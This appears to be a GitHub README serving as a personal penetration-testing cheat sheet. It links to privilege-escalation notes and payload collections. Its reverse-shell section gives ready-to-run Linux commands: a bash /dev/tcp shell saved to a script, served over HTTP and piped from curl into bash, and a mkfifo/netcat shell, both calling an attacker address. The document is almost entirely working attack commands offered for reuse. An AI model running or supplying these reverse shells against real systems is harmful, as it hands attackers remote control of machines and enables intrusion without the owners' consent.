 # Cheat Sheet
Here are some commands, reverse shells, and small scripts that I keep for pen-testing.

## Quick Links
[Linux Privilege Escalation](LinuxPrivEsc/README.md)
[Windows Privilege Escalation](WindowsPrivEsc/README.md)
[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
[Web Penetration Testing Checklist](https://github.com/swisskyrepo/PayloadsAllTheThings)


## Reverse Shell
Alternate ways to gain shells.

### Linux
Using cURL
```bash
echo 'bash -i >& /dev/tcp/10.10.10.10/1337 0>&1' > rev.sh
python3 -m http.server 8080
nc -lnvp 1337
curl http://10.10.10.10:8080/rev.sh | bash
```
Probably the least-special-characters way (and with sh):
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1337 > /tmp/f
```
